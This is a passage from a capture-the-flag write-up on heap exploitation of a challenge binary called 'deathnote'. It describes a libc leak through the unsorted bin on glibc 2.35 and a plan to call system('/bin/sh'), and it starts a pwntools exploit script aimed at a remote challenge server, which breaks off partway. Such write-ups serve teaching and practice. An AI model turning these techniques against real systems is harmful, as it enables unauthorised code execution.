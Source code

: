

The second vulnerability is in the `_()` function:

```c
(*pages[0])(pages[1]);
```

This basically allows us to call any function with any argument. So naturally I think of `system('/bin/sh')`

For that, we again need a libc leak.

> NOTE: Program uses *GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.6) stable release version 2.35.* <br>
> So hooks are removed and tcachebin is introduced.

### Exploit

[A libc leak is trivial due to unsorted bin leak](https://drive.google.com/file/d/1eJskblBnGMOM-lKyDKcqVFh8EQG1GB48/view), but the issue is, the max chunk size can be 128 bytes, and on freeing that chunk it will land up either in fastbin (if tcache is full) or in the tcachebin.

The solution is to:

1. Allocate 7 chunks and free them ... to fill tcachebin

2. Allocate two 128 bytes chunks and free them so that they consolidate into a single large chunk which cannot go in the fastbin, thus it lands in unsorted bin.

We can then leak the unsorted bin header and get a libc leak.

From then the plan is straightforward:

- set page[0] = address of system()

- set page[1] = '/bin/sh'

- call `_()`

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./deathnote", checksec=False)
libc = ELF(exe.libc.path, checksec=False)

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("94.237.58.148", 38866)

    return r


def main():
    r = conn()

    def add(page, data):
        r.sendline(b'1')
        r.clean(timeout=.5).decode()
        r.sendline(str(128).encode())
        r.clean(timeout=.5).decode()
        r.sendline(str(page).encode())
```